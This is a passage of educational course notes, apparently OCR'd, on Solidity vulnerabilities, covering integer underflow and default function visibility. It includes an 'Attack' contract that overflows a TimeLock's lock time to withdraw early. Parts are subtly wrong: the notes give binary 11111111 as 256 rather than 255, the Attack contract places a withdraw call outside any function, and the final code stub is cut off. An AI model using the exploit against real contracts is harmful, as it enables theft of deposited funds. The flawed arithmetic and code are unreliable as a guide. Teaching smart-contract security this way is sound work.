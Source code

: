 - When calculating 0 - 1, the machine will understands
   ```
   00000000 - 11111111
   ```
   This subtraction is evaluated to `11111111` or 256 in decimal; however, -1 is expected. This is an **integer underflow** because, simply, the calculation evaluates to a value that is **less than the minimum value** `uint8` can store, 0.

```solidity
contract Attack {
	TimeLock timeLock;
	
	constructor(TimeLock _timeLock) {
		timeLock = TimeLock(_timeLock);
	}
	
	fallback() external payable {}
	
	function attack() public payable {
		timeLock.deposit{value: msg.value}();
		
		timeLock.increaseLockTime(
			// This calculation may underflow
			type(uint).max + 1 - timeLock.lockTime(address(this))
		);
	}
	timeLock.withdraw();
}
```

### Function Default Visibility

\[[back to top ↑](#main-contents)\]

See [Lecture 5, function visibility specifiers](https://github.com/COS30049/cos30049_backend/blob/main/readings/src/%5BSOL%5D%20Fundamentals.md#function).

- When the visibility is not specified, the **default visibility of a function is `public`**. 
- Public function can be accessed **by all parties**. This can lead to a vulnerability if a developer **forgot to set the visibility** and a malicious user is able to make unauthorized or unintended state changes.


```solidity
contract RandomContract  {
	function nFunction() {
		// perform a task
	}
}
```
<pre>
        ▲  
        |
   ┌────┴─────┐
   |  Attack  |
   └────┬─────┘
        |
        |
</pre> 
```solidity
interface IRandomContract {
	function nFunction();
}

contract Attack {
```